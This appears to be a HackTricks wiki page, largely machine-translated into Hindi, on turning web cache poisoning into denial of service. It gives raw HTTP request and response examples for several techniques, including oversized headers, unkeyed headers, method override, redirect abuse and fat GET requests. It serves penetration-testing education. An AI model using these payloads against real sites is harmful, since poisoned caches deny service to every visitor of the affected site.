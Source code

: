 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
इस पृष्ठ पर आप विभिन्न प्रकार के प्रयास कर सकते हैं ताकि **वेब सर्वर अनुरोधों के लिए त्रुटियों के साथ प्रतिक्रिया दे** जो **कैश सर्वरों के लिए मान्य हैं**
{% endhint %}

* **HTTP Header Oversize (HHO)**

एक अनुरोध भेजें जिसमें हेडर का आकार वेब सर्वर द्वारा समर्थित आकार से बड़ा हो लेकिन कैश सर्वर द्वारा समर्थित आकार से छोटा हो। वेब सर्वर 400 प्रतिक्रिया के साथ प्रतिक्रिया देगा जो कैश किया जा सकता है:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP मेटा कैरेक्टर (HMC) और अप्रत्याशित मान**

एक हेडर भेजें जिसमें कुछ **हानिकारक मेटा कैरेक्टर** जैसे और शामिल हों। हमले के सफल होने के लिए, आपको पहले कैश को बायपास करना होगा।
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
A badly configured header could be just `\:` as a header.

यह भी काम कर सकता है यदि अप्रत्याशित मान भेजे जाएं, जैसे अप्रत्याशित Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Unkeyed header**

कुछ वेबसाइटें एक त्रुटि स्थिति कोड लौटाएंगी यदि वे अनुरोध में कुछ विशिष्ट हेडर जैसे _X-Amz-Website-Location-Redirect: someThing_ हेडर को **देखती हैं**:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Method Override Attack (HMO)**

यदि सर्वर `X-HTTP-Method-Override`, `X-HTTP-Method` या `X-Method-Override` जैसे हेडर के साथ HTTP विधि को बदलने का समर्थन करता है। तो एक वैध पृष्ठ का अनुरोध करना संभव है, विधि को बदलकर ताकि सर्वर इसका समर्थन न करे और एक खराब प्रतिक्रिया कैश हो जाए:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Unkeyed Port**

यदि Host हेडर में पोर्ट प्रतिक्रिया में परिलक्षित होता है और कैश कुंजी में शामिल नहीं होता है, तो इसे एक अप्रयुक्त पोर्ट पर पुनर्निर्देशित करना संभव है:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

जैसे कि निम्नलिखित उदाहरण में, x को कैश नहीं किया जा रहा है, इसलिए एक हमलावर रीडायरेक्ट प्रतिक्रिया के व्यवहार का दुरुपयोग कर सकता है ताकि रीडायरेक्ट एक ऐसा URL भेजे जो इतना बड़ा हो कि यह एक त्रुटि लौटाए। फिर, जो लोग बिना कैश किए गए x कुंजी के URL तक पहुँचने की कोशिश करेंगे, उन्हें त्रुटि प्रतिक्रिया मिलेगी:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **होस्ट हेडर केस सामान्यीकरण**

होस्ट हेडर को केस संवेदनशील नहीं होना चाहिए लेकिन कुछ वेबसाइटें इसे लोअरकेस में अपेक्षित करती हैं, यदि यह नहीं है तो एक त्रुटि लौटाती हैं:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **पथ सामान्यीकरण**

कुछ पृष्ठ त्रुटि कोड लौटाएंगे जो पथ में डेटा URLencode भेजते हैं, हालाँकि, कैश सर्वर पथ को URLdecode करेगा और URLdecoded पथ के लिए प्रतिक्रिया को संग्रहीत करेगा:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

कुछ कैश सर्वर, जैसे Cloudflare, या वेब सर्वर, बॉडी के साथ GET अनुरोधों को रोकते हैं, इसलिए इसका दुरुपयोग एक अमान्य प्रतिक्रिया को कैश करने के लिए किया जा सकता है:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## संदर्भ

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
